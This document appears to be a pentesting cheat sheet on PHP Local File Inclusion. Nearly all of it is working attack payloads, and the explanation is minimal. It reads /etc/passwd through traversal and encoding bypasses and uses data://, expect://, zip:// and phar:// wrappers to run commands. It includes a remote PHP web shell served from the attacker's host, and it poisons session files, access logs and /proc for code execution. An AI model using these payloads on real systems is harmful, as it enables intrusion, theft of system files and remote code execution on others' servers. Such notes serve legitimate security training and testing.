 Basic LFI
---

`http://<SERVER_IP>:<PORT>/index.php?language=/etc/passwd`

Bypass
---

Replacement:

`http://<SERVER_IP>:<PORT>/index.php?language=....//....//....//....//etc/passwd`


Encoding/Double Encoding:

`<SERVER_IP>:<PORT>/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`

Path Truncation: (adding 2048 `./` to truncate any thing appended to the input (`.php`, `.gif`)

`$ echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done`

Null Bytes:

`/etc/passwd%00` which will drop anythign appended behind like `/etc/passwd%00.php`

PHP input Filters
---

`php://filter/read=convert.base64-encode/resource=config`

PHP Wrappers
---

```
$ echo '<?php system($_GET["cmd"]); ?>' | base64

http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id

http://<SERVER_IP>:<PORT>/index.php?language=expect://id
```

Remote File Inclusion
---

```
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php

$ python3 -m http.server 8080

http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```

```
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php

$ python -m pyftpdlib -p 21

http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id
```

Staging Attacks with File Uploads
---

Upload a malicious file and include it with LFI

Image

```
$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif

http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```

Zip

```
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php

http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

Phar

shell.php

```
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

```
$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg

http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

Log Poisoning
---

### Cookie Poisioning and LFI

Given `PHPSESSID=nhhv8i0o6ua4g88bkdl9u1fdsd` Cookies are stored at `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`

We can poison the variable, and LFI the cookie to trigger the code

Poisoning language preference with PHP code, and executing it with LFI

```
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E

http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```

### Log Poisoning and LFI

Likewise, we can insert code in variables that are logged, and LFI the log file for execution

Set `User-Agent: <?php system($_GET['cmd']); ?>` 

Then LFI the access log with `cmd=id`

`http://<SERVER_IP>:<PORT>/index.php?language=../../var/log/apache2/access.log&cmd=id`

### Memory Poisioning and LFI

Using the same approach, we can poision the memory in `/proc/self/environ`, `/proc/self/fd/<pid>` or `/proc/self/mem` and LFI to include the memory space for code execution

Scanning
---

```
$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287

$ ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
```

